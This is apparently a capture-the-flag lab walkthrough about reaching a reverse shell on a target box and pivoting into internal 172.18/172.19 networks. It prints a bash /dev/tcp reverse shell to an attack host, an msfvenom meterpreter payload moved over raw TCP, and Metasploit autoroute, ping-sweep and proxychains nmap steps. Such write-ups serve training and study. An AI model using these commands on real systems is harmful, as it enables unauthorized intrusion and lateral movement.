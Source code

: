 If we have Burp change the GET request to a POST request, we can eventually get access to a GUI. On the GUI, we can graphically create a TCP reverse shell by dragging in some processors and connecting them up  

The shell we get is a dash shell, we can upgrade to a bash shell with:  
`nc -lvnp 8001` on attack box  
`bash -c 'bash -i >& /dev/tcp/10.10.14.3/8001 0>&1'`  

<br />

## Network Recon

### Moving stuff without curl or wget

We don't have `curl` or `wget` on the target box, but we can move stuff over with raw TCP!  

I generated a meterpreter rev shell on my attack box with:  
`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=8002 -f elf -o linux_rev_met`  

Then, to move it over:  
`nc -lvnp 8000 < linux_rev_met` on the attack box  
`cat < /dev/tcp/10.10.14.3/8000 > linux_rev_met` on the victim box  
You have to kill the nc connection from the attack box to get the shell on the victim box back  

### Ping Sweep

`ifconfig` in our meterpreter shell shows we are homed as both `172.18.0.2` and `172.19.0.4`  

`use post/multi/gather/ping_sweep`  
`set RHOSTS 172.18.0.0/23`  
`set session 1`  
To perform a ping sweep  

Then repeat for the `19` network

We find: `172.19.0.2` and `172.19.0.3`  

### Port Scanning

Two ways of port scanning:  
For both, we need to setup auto route first:  
`use post/multi/manage/autoroute`  
`set session 1`  
`run`  
Now, running `route` in msf should show `172.18.0.0/24` and `172.19.0.0/24` being routed to 'Gateway' session 1  
1. Use Metasploit tcp scan
    - `use auxiliary/scanner/portscan/tcp`
    - `set RHOSTS 172.19.0.2`  
    - `run`  
    - (The reason we don't have to specify a sesssion or anything is because msf already knows to route all 172.19.0 traffic to session 1)
2. Use nmap through an msf SOCKS proxy
    - `use auxiliary/server/socks_proxy`  
    - `set version 4a`
    - `set SRVPORT 9050`  
    - `set SRVHOST 127.0.0.1`  
    - `run`
    - ensure `socks4 127.0.0.1 9050` is in `/etc/proxychains.conf`  
    - `proxychains nmap -p1-10000 172.19.0.2`  
